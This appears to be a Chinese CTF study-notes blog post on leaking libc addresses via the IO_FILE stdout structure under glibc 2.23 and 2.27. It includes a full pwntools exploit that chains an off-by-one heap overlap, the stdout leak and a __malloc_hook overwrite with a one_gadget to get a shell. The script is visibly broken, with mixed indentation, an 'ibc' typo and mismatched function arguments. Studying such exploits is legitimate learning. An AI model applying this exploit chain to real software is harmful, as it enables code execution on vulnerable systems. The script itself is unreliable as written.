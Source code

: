 ```yaml
---
layout:     post
title:      IO_FILE泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IO_FILE泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - IOfile泄露libc

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IO_FILE泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面一般都包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，然后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

用pwntools的send函数发送数据来覆盖最后两字节为`\xdd\xN5`（_IO_2_1_stdout_结构体的地址的最低2字节），N需要爆破1/16

可以用`p &_IO_2_1_stdout_`来查看stdout结构体的地址，实际上应该是比`main_arena+88`大了0x1000左右，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

从fastbin里malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + b'\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,b'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,b'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python2

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'

libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    		p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
				libc=ELF("./"+libc_name)
		else:
    		p=remote('',)
    		e=ELF("./"+binary_name)
    		ibc=ELF("./"+libc_name)
        
		add(0x18)#0
    
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
		delete(1)
		#off-by-one，构造堆块重叠
    
		delete(2)
		#将目标chunk放入fastbin
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
    
		add(0x58)#2，与fastbin中重叠
    
		
		edit(2,'\xdd\x25')
		#修改低位两字节
		
		add(0x68)#4
    
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
		#填充payload
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
		print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
		add(0x18)#6
    
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
    
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
    
		add(0x68,'b')#8
    
		add(0x68,'b')#10
    
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
    
		cho(1)
		sla("size?",str(100))
		#调用malloc		
    
		ia()
		break
	except:
		p.close()

```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了，直接把tcache的fd改为`_IO_2_1_stdout_`即可

而且tcache可以直接覆盖free hook为system函数进行利用

